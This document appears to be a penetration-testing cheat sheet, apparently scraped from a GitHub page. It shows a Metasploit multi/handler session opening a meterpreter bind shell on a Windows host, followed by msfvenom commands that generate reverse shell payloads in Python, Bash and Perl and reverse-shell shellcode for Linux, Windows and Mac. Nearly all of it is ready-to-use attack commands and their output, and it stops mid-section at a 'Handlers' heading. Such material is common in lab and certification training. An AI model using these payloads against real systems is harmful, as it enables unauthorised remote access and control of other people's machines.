 ##### Connect to the bind shell - Manual
```
sudo service postgresql start
sudo msfdb init
msfconsole

msf5 > use multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/bind_tcp
payload => windows/meterpreter/bind_tcp
msf5 exploit(multi/handler) > set rhost 192.168.152.10
rhost => 192.168.152.10
msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) > exploit

[*] Started bind TCP handler against 192.168.152.10:4444
[*] Sending stage (180291 bytes) to 192.168.152.10
[*] Meterpreter session 1 opened (192.168.119.152:33035 -> 192.168.152.10:4444) at 2020-04-06 02:55:29 -0400
```



	Python
	msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py

	Bash
	msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh

	Perl
	msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl


## Shellcode

	For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.

	Linux Based Shellcode
	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>

	Windows Based Shellcode
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>

	Mac Based Shellcode
	msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>


	Handlers
